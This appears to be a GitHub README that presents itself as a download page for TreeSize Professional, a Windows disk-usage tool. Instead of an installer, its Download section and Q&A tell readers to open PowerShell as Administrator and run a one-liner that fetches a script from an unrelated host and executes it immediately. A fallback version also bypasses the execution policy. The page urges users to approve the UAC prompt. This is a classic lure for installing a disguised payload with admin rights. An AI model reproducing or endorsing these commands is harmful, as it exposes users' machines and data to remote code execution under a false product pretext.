

***

# TreeSize Professional

<p align="center">
  
</p>

TreeSize Professional — Windows 11 and 10 build | folder heat maps | aging reports.

## About this application

**TreeSize Professional** in this repo is a Windows desktop package for admins cleaning shared volumes. Expect a guided first launch, access to the scan console with folder sizes and aging reports, and stable sessions on a standard PC.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

## About

TreeSize Professional suits admins cleaning shared volumes who need a straightforward Windows install and a focused folder sizes and aging reports workflow.

## What's included

Scan console tools are bundled in this release. Install locally, open the app, and use the folder sizes and aging reports toolkit right away.

## Features

⚡ Fast scan
🧩 Owner filter
📊 Age charts
✨ Duplicate list
📄 CSV export
🗂️ Share roots
🔍 File types

## Good for

- 📌 File servers
- 🎯 Helpdesk
- ⭐ Storage reviews

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 4 GB minimum | 8 GB recommended
* **Disk:** 1 GB available storage

***